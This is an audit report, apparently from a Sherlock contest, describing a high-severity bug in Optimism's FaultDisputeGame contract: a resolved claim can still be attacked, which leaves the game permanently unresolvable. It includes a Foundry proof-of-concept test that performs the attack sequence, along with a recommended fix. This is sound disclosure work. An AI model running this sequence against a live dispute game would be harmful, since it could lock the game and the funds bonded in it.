 Calm Onyx Pheasant

high

# Resolved claims can still be attacked, rendering the game permanently unsolvable.

## Summary

Resolved claims can still be attacked, rendering the game permanently unsolvable.

## Vulnerability Detail

In the function move, there is a check for nextDuration which can’t exceed GAME_DURATION / 2.

```solidity
// Compute the duration of the next clock. This is done by adding the duration of the
// grandparent claim to the difference between the current block timestamp and the
// parent's clock timestamp.
Duration nextDuration = Duration.wrap(
    uint64(
        // First, fetch the duration of the grandparent claim.
        grandparentClock.duration().raw()
        // Second, add the difference between the current block timestamp and the
        // parent's clock timestamp.
        + block.timestamp - parent.clock.timestamp().raw()
    )
);

// INVARIANT: A move can never be made once its clock has exceeded `GAME_DURATION / 2`
//            seconds of time.
if (nextDuration.raw() > GAME_DURATION.raw() >> 1) revert ClockTimeExceeded();
```

In the function resolveClaim, there is also a check to ensure that the claim can not be resolved until more than halfway through the game.

```solidity
// INVARIANT: Cannot resolve a subgame unless the clock of its root has expired
uint64 parentClockDuration = parent.clock.duration().raw();
uint64 timeSinceParentMove = uint64(block.timestamp) - parent.clock.timestamp().raw();
if (parentClockDuration + timeSinceParentMove <= GAME_DURATION.raw() >> 1) {
    revert ClockNotExpired();
}
```

However, user can still attack the claim after it is resolved, allowing the claim to own the subgame again. Since the claim has been resolved, it cannot be resolved again (the function _distributeBond will revert). At the same time, as this claim has subgames, its parent claim will not be resolved. Eventually, the game will become permanently unsolvable.

The following is a practical case (please put it in FaultDisputeGame.t.sol):

```solidity
function test_resolve_fail() public {
    uint256 bal = 100 ether;
    vm.deal(address(this), bal);

    gameProxy.attack{ value: _getRequiredBond(0) }(0, _dummyClaim());
    vm.warp(block.timestamp + 12 hours);
    gameProxy.attack{ value: _getRequiredBond(1) }(1, _dummyClaim());

    Clock claim1clock;
    (, , , , , , claim1clock) = gameProxy.claimData(1);
    console.log("claim1duration:", claim1clock.duration().raw()); // 0

    Clock claim2clock;
    (, , , , , , claim2clock) = gameProxy.claimData(2);
    console.log("claim2duration:", claim2clock.duration().raw()); // 12 hours

    vm.warp(block.timestamp + 3 days + 1 seconds);
    gameProxy.resolveClaim(2);

    // nextDuration = grandparentClock.duration().raw() + block.timestamp - parent.clock.timestamp().raw()
    //              = claim1duration + 3 days + 1 seconds
    //              = 3 days + 1 seconds < GAME_DURATION / 2
    gameProxy.attack{ value: _getRequiredBond(2) }(2, _dummyClaim());

    Clock claim3clock;
    (, , , , , , claim3clock) = gameProxy.claimData(3);
    console.log("claim3duration:", claim3clock.duration().raw()); // 3 days + 1s

    // failed!!! as claimData[2] has a subgame
    gameProxy.resolveClaim(1); 
    gameProxy.resolveClaim(0);
    gameProxy.resolve();
}
```

![image](https://github.com/sherlock-audit/2024-02-optimism-2024-zrax-x/assets/52646245/ce58faa8-5ef2-40e0-97c0-c6a61c4b8d37)


Firstly, user attacks the root claim at 0 clock. It’s duration will be 0 (claim1duration).

Then, after 12 hours, user attacks the claimData[1]. It’s duration will be 12 hours (claim2duration).

Then, after 3 days + 1 seconds, the claimData[2] is resolvable (parentClockDuration + timeSinceParentMove = 3 days + 12 hours + 1 seconds).

However, user can still attack the claimData[2] after claimData[2] is resolved, as the nextDuration is 3 days + 1 seconds which doesn’t exceed the GAME_DURATION / 2.

Finally, claimData[1] will be unsolvable as claimData[2] has a subgame.

## Impact

Game will be permanently unsolvable

## Code Snippet

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L272-L280

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L412-L416

## Tool used

Manual Review

## Recommendation

When the claim is resolved, make it unattackable and undefendable.

One way is to modify the way nextDuration is calculated. Use the parent's duration instead of the grandparent’s.

```solidity
Duration nextDuration = Duration.wrap(
    uint64(
        // First, fetch the duration of the parent claim.
        parent.clock.duration().raw()
        // Second, add the difference between the current block timestamp and the
        // parent's clock timestamp.
        + block.timestamp - parent.clock.timestamp().raw()
    )
);
```
